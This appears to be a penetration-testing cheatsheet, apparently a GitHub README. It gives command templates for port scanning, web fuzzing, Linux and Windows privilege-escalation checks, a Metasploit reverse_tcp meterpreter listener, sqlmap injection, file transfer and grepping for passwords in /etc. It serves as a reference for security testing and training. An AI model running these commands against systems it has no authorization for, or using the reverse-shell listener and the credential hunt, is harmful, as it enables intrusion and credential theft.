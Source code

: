 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap
```
# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>```


Masscan

```# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0```


🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242```

```# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0```

Gobuster

```gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html```


🔑 Privilege Escalation
Linux PrivEsc

bash
```# SUID finder
find / -perm -4000 -type f 2>/dev/null```

```# Kernel exploits
uname -a; searchsploit <kernel_version>```

Windows PrivEsc

powershell
```# Service permissions
accesschk.exe /accepteula -uwcqv *```

```# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated```


🛠️ Exploitation


Metasploit

```# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit```

SQL Injection

```sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch```


📦 Post-Exploitation

File Transfers

```# Python HTTP server
python3 -m http.server 8000```

```# SCP download
scp user@target:/path/to/file .```

Credential Hunting

```# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null```


📚 Resources

GTFOBins

PayloadsAllTheThings

HackTricks
